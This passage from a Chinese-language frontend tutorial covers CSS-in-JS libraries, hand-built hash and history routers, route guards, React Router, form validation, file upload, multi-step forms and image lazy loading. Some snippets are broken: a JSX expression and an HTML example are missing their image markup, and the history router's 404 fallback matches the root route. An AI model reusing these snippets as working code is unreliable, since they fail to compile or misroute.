    md: '8px',
    lg: '16px',
  },
});

// 基础样式
export const button = style({
  padding: `${vars.spacing.sm} ${vars.spacing.md}`,
  borderRadius: vars.radius.sm,
  border: 'none',
  cursor: 'pointer',
  fontSize: '1rem',
  transition: 'all 0.2s ease',
  ':hover': {
    opacity: 0.9,
  },
});

// 样式变体
export const buttonVariants = styleVariants({
  primary: [button, {
    background: vars.color.primary,
    color: 'white',
  }],
  secondary: [button, {
    background: 'transparent',
    color: vars.color.primary,
    border: `2px solid ${vars.color.primary}`,
  }],
});

// 条件样式
export const card = style({
  background: vars.color.background,
  borderRadius: vars.radius.md,
  padding: vars.spacing.lg,
  boxShadow: '0 2px 8px rgba(0, 0, 0, 0.1)',
  '@media': {
    '(max-width: 768px)': {
      padding: vars.spacing.md,
    },
  },
});
```

```tsx
// 使用（React）
import { themeClass, buttonVariants, card } from './styles.css';

function App() {
  return (
    <div className={themeClass}>
      <div className={card}>
        <button className={buttonVariants.primary}>主要按钮</button>
        <button className={buttonVariants.secondary}>次要按钮</button>
      </div>
    </div>
  );
}
```

### 28.5 Panda CSS

```typescript
// panda.config.ts
import { defineConfig } from '@pandacss/dev';

export default defineConfig({
  preflight: true,
  include: ['./src/**/*.{js,jsx,ts,tsx}'],
  exclude: [],
  theme: {
    extend: {
      tokens: {
        colors: {
          primary: { value: '#3498db' },
          secondary: { value: '#2ecc71' },
        },
      },
    },
  },
  outdir: 'styled-system',
});
```

```tsx
// 使用 Panda CSS
import { css, cva } from '../../styled-system/css';

// 基础样式
const containerStyle = css({
  display: 'flex',
  flexDirection: 'column',
  gap: '1rem',
  padding: '2rem',
  bg: 'white',
  borderRadius: 'lg',
  shadow: 'md',
});

// 条件变体（cva = class-variance-authority）
const buttonStyle = cva({
  base: {
    display: 'inline-flex',
    alignItems: 'center',
    justifyContent: 'center',
    borderRadius: 'md',
    fontWeight: 'semibold',
    cursor: 'pointer',
  },
  variants: {
    size: {
      sm: { padding: '4px 8px', fontSize: 'sm' },
      md: { padding: '8px 16px', fontSize: 'md' },
      lg: { padding: '12px 24px', fontSize: 'lg' },
    },
    variant: {
      primary: { bg: 'primary', color: 'white' },
      outline: { bg: 'transparent', border: '2px solid', borderColor: 'primary' },
    },
  },
  defaultVariants: {
    size: 'md',
    variant: 'primary',
  },
});

function App() {
  return (
    <div className={containerStyle}>
      <button className={buttonStyle({ variant: 'primary', size: 'lg' })}>
        主要按钮
      </button>
    </div>
  );
}
```

### 28.6 选择建议

```mermaid
graph TD
    A[选择 CSS-in-JS 方案] --> B{需要动态样式？}
    B -->|是，大量动态| C{性能敏感？}
    B -->|否，主要是静态| D[Vanilla Extract 或 Panda CSS]

    C -->|是| E[Emotion]
    C -->|否| F[styled-components]

    D --> G{团队偏好？}
    G -->|喜欢 CSS 模板| H[Vanilla Extract]
    G -->|喜欢实用工具类| I[Panda CSS]

    F --> J[生态最成熟，学习资源最多]
    E --> K[性能更好，css prop 灵活]
```

---

## 29. 前端路由原理

前端路由是单页应用（SPA）的核心机制，它允许在不刷新页面的情况下切换视图，提供接近原生应用的用户体验。

### 29.1 路由模式概览

| 特性 | Hash Router | History Router | Service Worker Router |
|------|-------------|----------------|----------------------|
| **URL 格式** | `/#/path` | `/path` | `/path` |
| **服务器配置** | 不需要 | 需要配置 | 需要 SW 注册 |
| **SEO** | 较差 | 好 | 最好 |
| **兼容性** | 所有浏览器 | HTML5 浏览器 | 现代浏览器 |
| **实现复杂度** | 简单 | 中等 | 复杂 |
| **刷新行为** | 正常 | 需要 fallback | 离线可用 |
| **典型库** | react-hash-router | react-router | Workbox |

### 29.2 Hash Router 原理

Hash Router 利用 URL 的 hash 部分（`#` 后面的内容）来实现路由。hash 的变化不会触发页面刷新，但会触发 `hashchange` 事件。

```javascript
class HashRouter {
  constructor() {
    this.routes = {};
    this.currentPath = '';

    // 监听 hashchange 事件
    window.addEventListener('hashchange', this.handleRouteChange.bind(this));

    // 监听页面加载
    window.addEventListener('DOMContentLoaded', this.handleRouteChange.bind(this));
  }

  // 注册路由
  route(path, callback) {
    this.routes[path] = callback;
    return this; // 支持链式调用
  }

  // 路由变化处理
  handleRouteChange() {
    this.currentPath = window.location.hash.slice(1) || '/';
    const handler = this.routes[this.currentPath];

    if (handler) {
      handler();
    } else {
      // 404 处理
      const notFound = this.routes['*'];
      if (notFound) notFound();
    }
  }

  // 编程式导航
  navigate(path) {
    window.location.hash = path;
  }

  // 获取当前路由参数
  getParams() {
    const hash = window.location.hash.slice(1);
    const [path, queryString] = hash.split('?');
    const params = new URLSearchParams(queryString || '');
    return Object.fromEntries(params);
  }
}

// 使用示例
const router = new HashRouter();

router
  .route('/', () => {
    document.getElementById('app').innerHTML = '<h1>首页</h1>';
  })
  .route('/about', () => {
    document.getElementById('app').innerHTML = '<h1>关于我们</h1>';
  })
  .route('/user', () => {
    const params = router.getParams();
    document.getElementById('app').innerHTML = `<h1>用户: ${params.id}</h1>`;
  })
  .route('*', () => {
    document.getElementById('app').innerHTML = '<h1>404 - 页面不存在</h1>';
  });
```

### 29.3 History Router 原理

History Router 利用 HTML5 History API（`pushState` 和 `replaceState`）来管理 URL，实现无刷新的页面切换。

```javascript
class HistoryRouter {
  constructor() {
    this.routes = [];
    this.currentPath = '';

    // 监听 popstate 事件（浏览器前进/后退按钮）
    window.addEventListener('popstate', this.handleRouteChange.bind(this));

    // 拦截链接点击
    document.addEventListener('click', (e) => {
      const link = e.target.closest('a');
      if (link && link.getAttribute('data-router-link') !== null) {
        e.preventDefault();
        this.navigate(link.getAttribute('href'));
      }
    });
  }

  // 注册路由（支持路径参数）
  route(path, callback) {
    // 将路径模式转换为正则表达式
    const paramNames = [];
    const pattern = path.replace(/:([^/]+)/g, (_, name) => {
      paramNames.push(name);
      return '([^/]+)';
    });
    const regex = new RegExp(`^${pattern}$`);

    this.routes.push({ pattern: regex, paramNames, callback });
    return this;
  }

  // 路由变化处理
  handleRouteChange() {
    this.currentPath = window.location.pathname;

    for (const route of this.routes) {
      const match = this.currentPath.match(route.pattern);
      if (match) {
        // 提取参数
        const params = {};
        route.paramNames.forEach((name, index) => {
          params[name] = match[index + 1];
        });

        // 执行路由处理函数
        route.callback(params);
        return;
      }
    }

    // 404 处理
    const notFound = this.routes.find(r => r.pattern.source === '^\\/$');
    if (notFound) notFound.callback();
  }

  // 编程式导航
  navigate(path, state = {}) {
    window.history.pushState(state, '', path);
    this.handleRouteChange();
  }

  // 替换当前历史记录（不产生新记录）
  replace(path, state = {}) {
    window.history.replaceState(state, '', path);
    this.handleRouteChange();
  }

  // 前进/后退
  go(delta) {
    window.history.go(delta);
  }

  back() {
    window.history.back();
  }

  forward() {
    window.history.forward();
  }
}

// 使用示例
const router = new HistoryRouter();

router
  .route('/', () => {
    document.getElementById('app').innerHTML = '<h1>首页</h1>';
  })
  .route('/about', () => {
    document.getElementById('app').innerHTML = '<h1>关于我们</h1>';
  })
  .route('/user/:id', (params) => {
    document.getElementById('app').innerHTML = `<h1>用户: ${params.id}</h1>`;
  })
  .route('/post/:id/comment/:commentId', (params) => {
    document.getElementById('app').innerHTML =
      `<h1>帖子 ${params.id} 的评论 ${params.commentId}</h1>`;
  });

// 初始路由处理
router.handleRouteChange();
```

#### 服务器端配置

```nginx
# Nginx 配置 - 将所有路由回退到 index.html
server {
    listen 80;
    server_name example.com;
    root /var/www/html;
    index index.html;

    location / {
        try_files $uri $uri/ /index.html;
    }
}
```

```javascript
// Express 配置
const express = require('express');
const app = express();
const path = require('path');

// API 路由放在前面
app.get('/api/users', (req, res) => { /* ... */ });

// 所有其他路由返回 index.html
app.get('*', (req, res) => {
  res.sendFile(path.join(__dirname, 'dist', 'index.html'));
});
```

### 29.4 路由匹配算法

```javascript
// 路径匹配引擎
class PathMatcher {
  constructor() {
    this.patterns = new Map();
  }

  // 将路径模式编译为匹配器
  compile(pattern) {
    if (this.patterns.has(pattern)) {
      return this.patterns.get(pattern);
    }

    const paramNames = [];
    const regexStr = pattern
      // 匹配可选参数 :param?
      .replace(/:([^/?]+)\?/g, (_, name) => {
        paramNames.push({ name, optional: true });
        return '(?:/([^/]+))?';
      })
      // 匹配必选参数 :param
      .replace(/:([^/]+)/g, (_, name) => {
        paramNames.push({ name, optional: false });
        return '([^/]+)';
      })
      // 匹配通配符 *
      .replace(/\*/g, () => {
        paramNames.push({ name: '*', optional: false });
        return '(.*)';
      });

    const regex = new RegExp(`^${regexStr}$`);
    const matcher = { regex, paramNames };
    this.patterns.set(pattern, matcher);
    return matcher;
  }

  // 匹配路径
  match(pattern, pathname) {
    const { regex, paramNames } = this.compile(pattern);
    const match = pathname.match(regex);

    if (!match) return null;

    const params = {};
    paramNames.forEach(({ name }, index) => {
      if (match[index + 1] !== undefined) {
        params[name] = decodeURIComponent(match[index + 1]);
      }
    });

    return params;
  }
}

// 使用示例
const matcher = new PathMatcher();

console.log(matcher.match('/user/:id', '/user/123'));
// { id: '123' }

console.log(matcher.match('/post/:id/comment/:commentId', '/post/456/comment/789'));
// { id: '456', commentId: '789' }

console.log(matcher.match('/files/*', '/files/documents/report.pdf'));
// { '*': 'documents/report.pdf' }

console.log(matcher.match('/shop/:category?', '/shop'));
// {} (可选参数缺失)

console.log(matcher.match('/shop/:category?', '/shop/electronics'));
// { category: 'electronics' }
```

### 29.5 路由守卫与中间件

```javascript
class Router {
  constructor() {
    this.routes = [];
    this.beforeGuards = [];
    this.afterGuards = [];
  }

  // 注册全局前置守卫
  beforeEach(guard) {
    this.beforeGuards.push(guard);
  }

  // 注册全局后置守卫
  afterEach(guard) {
    this.afterGuards.push(guard);
  }

  // 注册路由（支持路由级守卫）
  route(path, config) {
    // config: { component, beforeEnter, meta }
    this.routes.push({ path, ...config });
    return this;
  }

  async handleRouteChange(to, from) {
    // 执行全局前置守卫
    for (const guard of this.beforeGuards) {
      const result = await guard(to, from);
      if (result === false) return; // 中断导航
      if (typeof result === 'string') {
        // 重定向
        this.navigate(result);
        return;
      }
    }

    // 查找匹配的路由
    const route = this.routes.find(r => this.matchPath(r.path, to.path));
    if (!route) {
      this.show404();
      return;
    }

    // 执行路由级守卫
    if (route.beforeEnter) {
      const result = await route.beforeEnter(to, from);
      if (result === false) return;
    }

    // 渲染组件
    this.renderComponent(route.component);

    // 执行全局后置守卫
    for (const guard of this.afterGuards) {
      await guard(to, from);
    }
  }
}

// 使用示例
const router = new Router();

// 认证守卫
router.beforeEach((to, from) => {
  const isAuthenticated = !!localStorage.getItem('token');

  if (to.meta?.requiresAuth && !isAuthenticated) {
    // 保存目标路径，登录后跳转
    sessionStorage.setItem('redirectAfterLogin', to.path);
    return '/login';
  }

  // 已登录用户访问登录页，重定向到首页
  if (to.path === '/login' && isAuthenticated) {
    return '/';
  }
});

// 日志守卫
router.afterEach((to, from) => {
  console.log(`路由变化: ${from.path} → ${to.path}`);
  // 发送页面浏览统计
  analytics.pageView(to.path);
});

// 路由配置
router
  .route('/', { component: Home, meta: { title: '首页' } })
  .route('/dashboard', {
    component: Dashboard,
    meta: { requiresAuth: true, title: '控制台' }
  })
  .route('/admin', {
    component: Admin,
    meta: { requiresAuth: true, requiresRole: 'admin' },
    beforeEnter: (to) => {
      const user = getUser();
      if (user.role !== 'admin') return '/403';
    }
  });
```

### 29.6 React Router 实战

```jsx
import {
  BrowserRouter, Routes, Route, Link,
  useParams, useNavigate, useLocation,
  Navigate, Outlet
} from 'react-router-dom';

// 路由配置
function App() {
  return (
    <BrowserRouter>
      <Routes>
        {/* 公共路由 */}
        <Route path="/" element={<Layout />}>
          <Route index element={<Home />} />
          <Route path="about" element={<About />} />
          <Route path="login" element={<Login />} />

          {/* 需要认证的路由 */}
          <Route element={<RequireAuth />}>
            <Route path="dashboard" element={<Dashboard />} />
            <Route path="profile" element={<Profile />} />
            <Route path="settings" element={<Settings />} />
          </Route>

          {/* 动态路由 */}
          <Route path="user/:userId" element={<UserProfile />}>
            <Route index element={<UserPosts />} />
            <Route path="posts" element={<UserPosts />} />
            <Route path="followers" element={<UserFollowers />} />
          </Route>

          {/* 404 */}
          <Route path="*" element={<NotFound />} />
        </Route>
      </Routes>
    </BrowserRouter>
  );
}

// 布局组件
function Layout() {
  return (
    <div>
      <nav>
        <Link to="/">首页</Link>
        <Link to="/dashboard">控制台</Link>
        <Link to="/user/123">用户</Link>
      </nav>
      <main>
        {/* 子路由渲染位置 */}
        <Outlet />
      </main>
    </div>
  );
}

// 认证守卫组件
function RequireAuth() {
  const isAuthenticated = useAuth();
  const location = useLocation();

  if (!isAuthenticated) {
    // 重定向到登录页，保存当前位置
    return <Navigate to="/login" state={{ from: location }} replace />;
  }

  return <Outlet />;
}

// 使用路由参数
function UserProfile() {
  const { userId } = useParams();
  const navigate = useNavigate();

  return (
    <div>
      <h1>用户 {userId} 的主页</h1>
      <nav>
        <Link to="posts">帖子</Link>
        <Link to="followers">关注者</Link>
      </nav>
      <Outlet />

      <button onClick={() => navigate(-1)}>返回</button>
      <button onClick={() => navigate('/')}>回首页</button>
    </div>
  );
}
```

```mermaid
graph TD
    A[页面加载] --> B{URL 类型？}
    B -->|Hash #/path| C[Hash Router]
    B -->|普通 /path| D[History Router]
    B -->|Service Worker| E[SW Router]

    C --> F[监听 hashchange]
    D --> G[监听 popstate]
    E --> H[拦截 fetch 请求]

    F --> I[匹配路由规则]
    G --> I
    H --> I

    I --> J{匹配成功？}
    J -->|是| K[执行路由守卫]
    J -->|否| L[404 处理]

    K --> M{守卫通过？}
    M -->|是| N[渲染目标组件]
    M -->|否| O[重定向或中断]

    N --> P[更新 URL]
    P --> Q[触发 afterEach 守卫]
```

---

## 30. 表单处理进阶

表单是 Web 应用中用户交互的核心。掌握高级表单处理技术能显著提升用户体验和数据质量。

### 30.1 受控组件 vs 非受控组件

```jsx
import { useState, useRef } from 'react';

// ---- 受控组件 ----
// 表单数据由 React state 管理
function ControlledForm() {
  const [formData, setFormData] = useState({
    username: '',
    email: '',
    role: 'user',
    agree: false,
  });

  const handleChange = (e) => {
    const { name, value, type, checked } = e.target;
    setFormData(prev => ({
      ...prev,
      [name]: type === 'checkbox' ? checked : value,
    }));
  };

  const handleSubmit = (e) => {
    e.preventDefault();
    console.log('提交数据:', formData);
  };

  return (
    <form onSubmit={handleSubmit}>
      <input
        name="username"
        value={formData.username}
        onChange={handleChange}
        placeholder="用户名"
      />
      <input
        name="email"
        type="email"
        value={formData.email}
        onChange={handleChange}
        placeholder="邮箱"
      />
      <select name="role" value={formData.role} onChange={handleChange}>
        <option value="user">普通用户</option>
        <option value="admin">管理员</option>
      </select>
      <label>
        <input
          name="agree"
          type="checkbox"
          checked={formData.agree}
          onChange={handleChange}
        />
        同意协议
      </label>
      <button type="submit">提交</button>
    </form>
  );
}

// ---- 非受控组件 ----
// 表单数据由 DOM 自身管理
function UncontrolledForm() {
  const usernameRef = useRef();
  const emailRef = useRef();
  const fileRef = useRef();

  const handleSubmit = (e) => {
    e.preventDefault();
    const data = {
      username: usernameRef.current.value,
      email: emailRef.current.value,
      file: fileRef.current.files[0],
    };
    console.log('提交数据:', data);
  };

  return (
    <form onSubmit={handleSubmit}>
      <input ref={usernameRef} defaultValue="" placeholder="用户名" />
      <input ref={emailRef} defaultValue="" placeholder="邮箱" />
      <input ref={fileRef} type="file" />
      <button type="submit">提交</button>
    </form>
  );
}
```

| 特性 | 受控组件 | 非受控组件 |
|------|----------|------------|
| **数据存储** | React state | DOM |
| **实时验证** | ✅ 容易 | ⚠️ 需要额外处理 |
| **动态交互** | ✅ 强大 | ❌ 有限 |
| **代码量** | 较多 | 较少 |
| **适用场景** | 复杂表单、实时验证 | 简单表单、文件上传 |

### 30.2 表单验证

```jsx
import { useState } from 'react';

// 验证规则定义
const validators = {
  required: (value) => {
    if (!value || (typeof value === 'string' && !value.trim())) {
      return '此字段为必填项';
    }
    return null;
  },

  minLength: (min) => (value) => {
    if (value && value.length < min) {
      return `至少需要 ${min} 个字符`;
    }
    return null;
  },

  maxLength: (max) => (value) => {
    if (value && value.length > max) {
      return `最多 ${max} 个字符`;
    }
    return null;
  },

  email: (value) => {
    const regex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
    if (value && !regex.test(value)) {
      return '请输入有效的邮箱地址';
    }
    return null;
  },

  pattern: (regex, message) => (value) => {
    if (value && !regex.test(value)) {
      return message;
    }
    return null;
  },

  match: (fieldName, message) => (value, allValues) => {
    if (value !== allValues[fieldName]) {
      return message;
    }
    return null;
  },

  custom: (fn) => fn,
};

// 表单验证 Hook
function useFormValidation(initialValues, validationRules) {
  const [values, setValues] = useState(initialValues);
  const [errors, setErrors] = useState({});
  const [touched, setTouched] = useState({});

  const validate = (name, value) => {
    const rules = validationRules[name] || [];
    for (const rule of rules) {
      const error = rule(value, values);
      if (error) return error;
    }
    return null;
  };

  const handleChange = (name, value) => {
    setValues(prev => ({ ...prev, [name]: value }));

    // 实时验证（字段已被触碰过）
    if (touched[name]) {
      const error = validate(name, value);
      setErrors(prev => ({ ...prev, [name]: error }));
    }
  };

  const handleBlur = (name) => {
    setTouched(prev => ({ ...prev, [name]: true }));
    const error = validate(name, values[name]);
    setErrors(prev => ({ ...prev, [name]: error }));
  };

  const validateAll = () => {
    const newErrors = {};
    let isValid = true;

    Object.keys(validationRules).forEach(name => {
      const error = validate(name, values[name]);
      if (error) {
        newErrors[name] = error;
        isValid = false;
      }
    });

    setErrors(newErrors);
    setTouched(
      Object.keys(validationRules).reduce((acc, key) => ({ ...acc, [key]: true }), {})
    );

    return isValid;
  };

  const reset = () => {
    setValues(initialValues);
    setErrors({});
    setTouched({});
  };

  return {
    values, errors, touched,
    handleChange, handleBlur, validateAll, reset,
  };
}

// 使用示例
function RegistrationForm() {
  const {
    values, errors, touched,
    handleChange, handleBlur, validateAll, reset,
  } = useFormValidation(
    { username: '', email: '', password: '', confirmPassword: '' },
    {
      username: [validators.required, validators.minLength(3), validators.maxLength(20)],
      email: [validators.required, validators.email],
      password: [validators.required, validators.minLength(8)],
      confirmPassword: [
        validators.required,
        validators.match('password', '两次密码不一致'),
      ],
    }
  );

  const handleSubmit = (e) => {
    e.preventDefault();
    if (validateAll()) {
      console.log('注册数据:', values);
    }
  };

  return (
    <form onSubmit={handleSubmit} noValidate>
      <div>
        <input
          value={values.username}
          onChange={(e) => handleChange('username', e.target.value)}
          onBlur={() => handleBlur('username')}
          placeholder="用户名"
        />
        {touched.username && errors.username && (
          <span className="error">{errors.username}</span>
        )}
      </div>

      <div>
        <input
          type="email"
          value={values.email}
          onChange={(e) => handleChange('email', e.target.value)}
          onBlur={() => handleBlur('email')}
          placeholder="邮箱"
        />
        {touched.email && errors.email && (
          <span className="error">{errors.email}</span>
        )}
      </div>

      <div>
        <input
          type="password"
          value={values.password}
          onChange={(e) => handleChange('password', e.target.value)}
          onBlur={() => handleBlur('password')}
          placeholder="密码"
        />
        {touched.password && errors.password && (
          <span className="error">{errors.password}</span>
        )}
      </div>

      <div>
        <input
          type="password"
          value={values.confirmPassword}
          onChange={(e) => handleChange('confirmPassword', e.target.value)}
          onBlur={() => handleBlur('confirmPassword')}
          placeholder="确认密码"
        />
        {touched.confirmPassword && errors.confirmPassword && (
          <span className="error">{errors.confirmPassword}</span>
        )}
      </div>

      <button type="submit">注册</button>
      <button type="button" onClick={reset}>重置</button>
    </form>
  );
}
```

### 30.3 文件上传

```jsx
import { useState, useRef, useCallback } from 'react';

// 文件上传 Hook
function useFileUpload(options = {}) {
  const {
    maxSize = 5 * 1024 * 1024, // 5MB
    accept = '*/*',
    multiple = false,
    maxFiles = 10,
  } = options;

  const [files, setFiles] = useState([]);
  const [previews, setPreviews] = useState([]);
  const [uploading, setUploading] = useState(false);
  const [progress, setProgress] = useState(0);
  const [error, setError] = useState(null);
  const inputRef = useRef(null);

  const validateFile = useCallback((file) => {
    if (file.size > maxSize) {
      return `文件 ${file.name} 超过大小限制 (${Math.round(maxSize / 1024 / 1024)}MB)`;
    }
    return null;
  }, [maxSize]);

  const addFiles = useCallback((newFiles) => {
    setError(null);
    const fileArray = Array.from(newFiles);

    // 验证文件数量
    if (files.length + fileArray.length > maxFiles) {
      setError(`最多上传 ${maxFiles} 个文件`);
      return;
    }

    // 验证每个文件
    for (const file of fileArray) {
      const error = validateFile(file);
      if (error) {
        setError(error);
        return;
      }
    }

    // 生成预览
    const newPreviews = fileArray.map(file => ({
      name: file.name,
      size: file.size,
      type: file.type,
      url: file.type.startsWith('image/') ? URL.createObjectURL(file) : null,
    }));

    setFiles(prev => [...prev, ...fileArray]);
    setPreviews(prev => [...prev, ...newPreviews]);
  }, [files.length, maxFiles, validateFile]);

  const removeFile = useCallback((index) => {
    setFiles(prev => {
      const newFiles = [...prev];
      // 释放预览 URL
      if (previews[index]?.url) {
        URL.revokeObjectURL(previews[index].url);
      }
      newFiles.splice(index, 1);
      return newFiles;
    });
    setPreviews(prev => {
      const newPreviews = [...prev];
      newPreviews.splice(index, 1);
      return newPreviews;
    });
  }, [previews]);

  const upload = useCallback(async (url) => {
    if (files.length === 0) return;

    setUploading(true);
    setProgress(0);
    setError(null);

    try {
      const formData = new FormData();
      files.forEach((file, index) => {
        formData.append(`files[${index}]`, file);
      });

      const xhr = new XMLHttpRequest();

      xhr.upload.addEventListener('progress', (e) => {
        if (e.lengthComputable) {
          setProgress(Math.round((e.loaded / e.total) * 100));
        }
      });

      const response = await new Promise((resolve, reject) => {
        xhr.onload = () => {
          if (xhr.status >= 200 && xhr.status < 300) {
            resolve(JSON.parse(xhr.responseText));
          } else {
            reject(new Error(`上传失败: ${xhr.status}`));
          }
        };
        xhr.onerror = () => reject(new Error('网络错误'));
        xhr.open('POST', url);
        xhr.send(formData);
      });

      setFiles([]);
      setPreviews([]);
      return response;
    } catch (err) {
      setError(err.message);
      throw err;
    } finally {
      setUploading(false);
    }
  }, [files]);

  const getInputProps = () => ({
    ref: inputRef,
    type: 'file',
    accept,
    multiple,
    onChange: (e) => addFiles(e.target.files),
    style: { display: 'none' },
  });

  return {
    files, previews, uploading, progress, error,
    addFiles, removeFile, upload, getInputProps,
    openFilePicker: () => inputRef.current?.click(),
  };
}

// 拖拽上传组件
function DropZone({ children, onDrop, accept }) {
  const [isDragActive, setIsDragActive] = useState(false);

  const handleDragOver = (e) => {
    e.preventDefault();
    setIsDragActive(true);
  };

  const handleDragLeave = () => {
    setIsDragActive(false);
  };

  const handleDrop = (e) => {
    e.preventDefault();
    setIsDragActive(false);
    onDrop(e.dataTransfer.files);
  };

  return (
    <div
      onDragOver={handleDragOver}
      onDragLeave={handleDragLeave}
      onDrop={handleDrop}
      className={`drop-zone ${isDragActive ? 'active' : ''}`}
    >
      {children}
    </div>
  );
}

// 使用示例
function FileUploadDemo() {
  const {
    files, previews, uploading, progress, error,
    addFiles, removeFile, upload, getInputProps, openFilePicker,
  } = useFileUpload({
    maxSize: 10 * 1024 * 1024,
    accept: 'image/*,application/pdf',
    multiple: true,
    maxFiles: 5,
  });

  return (
    <div>
      <DropZone onDrop={addFiles}>
        <input {...getInputProps()} />
        <p>拖拽文件到此处，或 <button onClick={openFilePicker}>点击选择</button></p>
      </DropZone>

      {error && <div className="error">{error}</div>}

      {previews.map((preview, index) => (
        <div key={index} className="file-preview">
          {preview.url && }
          <span>{preview.name} ({Math.round(preview.size / 1024)}KB)</span>
          <button onClick={() => removeFile(index)}>删除</button>
        </div>
      ))}

      {uploading && (
        <div className="progress-bar">
          <div style={{ width: `${progress}%` }}>{progress}%</div>
        </div>
      )}

      <button onClick={() => upload('/api/upload')} disabled={files.length === 0 || uploading}>
        上传 ({files.length} 个文件)
      </button>
    </div>
  );
}
```

### 30.4 多步骤表单

```jsx
import { useState, useCallback } from 'react';

// 多步骤表单 Hook
function useMultiStepForm(steps) {
  const [currentStep, setCurrentStep] = useState(0);
  const [formData, setFormData] = useState({});
  const [stepErrors, setStepErrors] = useState({});

  const isFirstStep = currentStep === 0;
  const isLastStep = currentStep === steps.length - 1;
  const currentStepConfig = steps[currentStep];

  const updateFormData = useCallback((newData) => {
    setFormData(prev => ({ ...prev, ...newData }));
  }, []);

  const setStepError = useCallback((step, errors) => {
    setStepErrors(prev => ({ ...prev, [step]: errors }));
  }, []);

  const next = useCallback(() => {
    if (!isLastStep) {
      setCurrentStep(prev => prev + 1);
    }
  }, [isLastStep]);

  const prev = useCallback(() => {
    if (!isFirstStep) {
      setCurrentStep(prev => prev - 1);
    }
  }, [isFirstStep]);

  const goTo = useCallback((step) => {
    if (step >= 0 && step < steps.length) {
      setCurrentStep(step);
    }
  }, [steps.length]);

  const reset = useCallback(() => {
    setCurrentStep(0);
    setFormData({});
    setStepErrors({});
  }, []);

  return {
    currentStep, formData, stepErrors,
    isFirstStep, isLastStep, currentStepConfig,
    updateFormData, setStepError,
    next, prev, goTo, reset,
    totalSteps: steps.length,
    progress: ((currentStep + 1) / steps.length) * 100,
  };
}

// 多步骤表单组件
function MultiStepForm() {
  const steps = [
    {
      id: 'personal',
      title: '个人信息',
      fields: ['name', 'email', 'phone'],
      validate: (data) => {
        const errors = {};
        if (!data.name) errors.name = '请输入姓名';
        if (!data.email) errors.email = '请输入邮箱';
        return errors;
      },
    },
    {
      id: 'address',
      title: '地址信息',
      fields: ['province', 'city', 'address'],
      validate: (data) => {
        const errors = {};
        if (!data.province) errors.province = '请选择省份';
        if (!data.city) errors.city = '请选择城市';
        return errors;
      },
    },
    {
      id: 'payment',
      title: '支付方式',
      fields: ['paymentMethod', 'cardNumber'],
      validate: (data) => {
        const errors = {};
        if (!data.paymentMethod) errors.paymentMethod = '请选择支付方式';
        return errors;
      },
    },
    {
      id: 'confirm',
      title: '确认信息',
      fields: [],
      validate: () => ({}),
    },
  ];

  const {
    currentStep, formData, isFirstStep, isLastStep,
    currentStepConfig, updateFormData, setStepError, stepErrors,
    next, prev, goTo, progress, totalSteps,
  } = useMultiStepForm(steps);

  const handleNext = () => {
    const errors = currentStepConfig.validate(formData);
    if (Object.keys(errors).length > 0) {
      setStepError(currentStep, errors);
      return;
    }
    setStepError(currentStep, {});
    next();
  };

  const handleSubmit = async () => {
    console.log('最终提交:', formData);
    // await api.submit(formData);
  };

  const renderStep = () => {
    switch (currentStepConfig.id) {
      case 'personal':
        return (
          <div>
            <input
              value={formData.name || ''}
              onChange={(e) => updateFormData({ name: e.target.value })}
              placeholder="姓名"
            />
            {stepErrors[currentStep]?.name && (
              <span className="error">{stepErrors[currentStep].name}</span>
            )}
            <input
              type="email"
              value={formData.email || ''}
              onChange={(e) => updateFormData({ email: e.target.value })}
              placeholder="邮箱"
            />
            <input
              type="tel"
              value={formData.phone || ''}
              onChange={(e) => updateFormData({ phone: e.target.value })}
              placeholder="电话"
            />
          </div>
        );
      case 'confirm':
        return (
          <div>
            <h3>确认信息</h3>
            <pre>{JSON.stringify(formData, null, 2)}</pre>
          </div>
        );
      default:
        return <div>步骤内容...</div>;
    }
  };

  return (
    <div className="multi-step-form">
      {/* 进度条 */}
      <div className="progress">
        {steps.map((step, index) => (
          <div
            key={step.id}
            className={`step ${index === currentStep ? 'active' : ''} ${index < currentStep ? 'completed' : ''}`}
            onClick={() => index < currentStep && goTo(index)}
          >
            {index + 1}. {step.title}
          </div>
        ))}
      </div>

      {/* 步骤内容 */}
      <div className="step-content">
        <h2>{currentStepConfig.title}</h2>
        {renderStep()}
      </div>

      {/* 导航按钮 */}
      <div className="step-navigation">
        {!isFirstStep && <button onClick={prev}>上一步</button>}
        {!isLastStep ? (
          <button onClick={handleNext}>下一步</button>
        ) : (
          <button onClick={handleSubmit}>提交</button>
        )}
      </div>
    </div>
  );
}
```

---

## 31. 图片懒加载实现

图片懒加载是一种优化网页性能的技术，只在图片进入可视区域时才加载，减少初始页面加载时间和带宽消耗。

### 31.1 Intersection Observer 实现

```javascript
// 原生 Intersection Observer 实现
class LazyImageLoader {
  constructor(options = {}) {
    this.rootMargin = options.rootMargin || '200px';
    this.threshold = options.threshold || 0.01;
    this.observer = null;
    this.init();
  }

  init() {
    if (!('IntersectionObserver' in window)) {
      // 降级处理：直接加载所有图片
      this.loadAllImages();
      return;
    }

    this.observer = new IntersectionObserver(
      this.handleIntersection.bind(this),
      {
        rootMargin: this.rootMargin,
        threshold: this.threshold,
      }
    );

    // 观察所有懒加载图片
    this.observeAll();
  }

  observeAll() {
    const images = document.querySelectorAll('img[data-src]');
    images.forEach(img => this.observer.observe(img));
  }

  handleIntersection(entries) {
    entries.forEach(entry => {
      if (entry.isIntersecting) {
        this.loadImage(entry.target);
        this.observer.unobserve(entry.target);
      }
    });
  }

  loadImage(img) {
    const src = img.dataset.src;
    const srcset = img.dataset.srcset;

    if (!src) return;

    // 预加载图片
    const tempImage = new Image();
    tempImage.onload = () => {
      img.src = src;
      if (srcset) img.srcset = srcset;
      img.classList.add('loaded');
      img.removeAttribute('data-src');
      img.removeAttribute('data-srcset');
    };
    tempImage.onerror = () => {
      img.classList.add('error');
      // 显示错误占位图
      img.src = '/images/placeholder-error.svg';
    };
    tempImage.src = src;
  }

  loadAllImages() {
    const images = document.querySelectorAll('img[data-src]');
    images.forEach(img => this.loadImage(img));
  }

  disconnect() {
    if (this.observer) {
      this.observer.disconnect();
    }
  }
}

// 使用
const loader = new LazyImageLoader({ rootMargin: '300px' });
```

```html
<!-- HTML 使用 -->

```

```css
/* 懒加载图片样式 */
.lazy-image {
  opacity: 0;
  transition: opacity 0.3s ease;
  background: #f0f0f0;
}

.lazy-image.loaded {
  opacity: 1;
}

.lazy-image.error {
  opacity: 1;
  background: #ffe0e0;
}
```

### 31.2 React 懒加载组件

```jsx
import { useState, useEffect, useRef, useCallback } from 'react';

// 懒加载图片 Hook
function useLazyImage(options = {}) {
  const { rootMargin = '200px', threshold = 0.01 } = options;
